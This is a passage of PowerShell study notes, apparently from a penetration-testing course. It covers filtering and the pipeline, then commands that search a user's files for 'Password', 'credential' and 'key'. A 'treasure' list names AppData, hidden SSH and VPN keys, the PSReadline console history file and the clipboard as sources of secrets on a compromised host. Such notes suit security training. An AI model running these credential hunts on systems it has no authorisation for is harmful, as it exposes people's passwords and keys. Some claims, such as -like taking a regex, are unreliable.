    1 True                      {MTanaka}
```

Sorting, grouping and filtering are all useful tools that will help us focus on the relevant data we are interested and throwing away the useless data we don't care about.

### Where
Sometimes what we are looking for might not be as clear to us as we would like, but we know sorta what we want. Say we are looking for a service and we know part of the name.

`Get-Service | where DisplayName -like '*Defender*'`

```
Status   Name               DisplayName
------   ----               -----------
Running  mpssvc             Windows Defender Firewall
Stopped  Sense              Windows Defender Advanced Threat Pr...
Running  WdNisSvc           Microsoft Defender Antivirus Networ...
Running  WinDefend          Microsoft Defender Antivirus Service
```

Here i prompted PowerShell that i was looking for a DisplayName -like "*Defender*" *note* that the search string is a regex. 

Like is not the only comparison operator we can use
* like
* Contains
* Equal
* Match
* Not

### Pipeline (|)
Like with bash the pipeline forwards the returned object and parses in as an argument to the statement afther the pipeline. You can chain maybe statements together like that:
`get-process | sort | unique | measure-object`

#### Chain Operators (&& and ||)
* && executes the next statement if the first statement succeeds 
* || executes the next statement if the first statement failed.

Only works with PowerShell 7 and above.


### Finding data within content
Say we are unable to bring in tools from the outside, how can we hunt for sensitive data? 

`Select-String` is a good place to start it functions much like grep.

Lets examine this string
`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt")}`

This will recursivly enumerate every subdir of the path given and while suppressing any errors we get will return any .txt file it finds. 

However txt files are not the only interesting file type on a system, so lets expand with some more types!

`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt" -or $_.Name -like "*.py" -or $_.Name -like "*.ps1" -or $_.Name -like "*.md" -or $_.Name -like "*.csv")}`

Using the or operator we now have a good change of finding some interesting files.

Now lets search some interesting files for string keywords!

`Get-ChildItem -Path C:\Users\MTanaka\ -Filter "*.txt" -Recurse -File | sls "Password","credential","key"`

I have reduced the scope of file searches for clarities sake. The txt files we do find we search for the strings Password, credential and key. 

### Good Places to look for Treasure

* Looking in a Users \AppData\ folder is a great place to start. Many applications store configuration files, temp saves of documents, and more.
* A Users home folder C:\Users\User\ is a common storage place; things like VPN keys, SSH keys, and more are stored. Typically in hidden folders. (Get-ChildItem -Hidden)
* The Console History files kept by the host are an endless well of information, especially if you land on an administrator's host. You can check two different points:
* C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
* Get-Content (Get-PSReadlineOption).HistorySavePath
* Checking a user's clipboard may also yield useful information. You can do so with Get-Clipboard
* Looking at Scheduled tasks can be helpful as well.

## Working with Services

### How do we interact with services in PowerShell?
